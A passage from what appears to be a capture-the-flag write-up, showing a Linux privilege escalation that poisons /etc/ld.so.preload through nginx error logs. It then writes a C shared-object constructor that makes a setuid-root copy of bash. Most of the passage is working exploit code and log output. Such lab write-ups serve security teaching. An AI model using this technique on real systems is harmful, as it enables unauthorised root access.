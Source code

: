 ```
ERROR: ld.so: object 'such' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'file' from /etc/ld.so.preload cannot be preloaded (cannot read file data): ignored.
ERROR: ld.so: object 'or' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'directory),' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'client' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '127.0.0.1,' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'server' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object ',' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'request' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '"GET' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '/tmp/pwn.so' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'HTTP/1.1",' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object 'host' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '"localhost' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1339"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.

2023/11/08 21:13:40 [error] 2426#2426: *1 open() "/tmp/pwn.so" failed (2: No such file or directory), client: 127.0.0.1, server: , request: "GET /tmp/pwn.so HTTP/1.1", host: "localhost:1339"
2023/11/08 21:13:42 [error] 2426#2426: *2 open() "/tmp/pwn.so" failed (2: No such file or directory), client: 127.0.0.1, server: , request: "GET /tmp/pwn.so HTTP/1.1", host: "localhost:1339"

```

Now any command will try to load a bunch of junk, but also `/tmp/pwn.so`.

#### Create SO

I’ll make a copy of `bash` to mess with:

```
activemq@broker:/tmp$ cp /bin/bash /tmp/rootshell
...[snip errors]...

```

I’ll write the following to `/tmp/pwn.c`:

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/rootshell", 0, 0);
   chmod("/tmp/rootshell", 04755);
   unlink("/etc/ld.so.preload");
   printf("[+] done!\n");
}

```
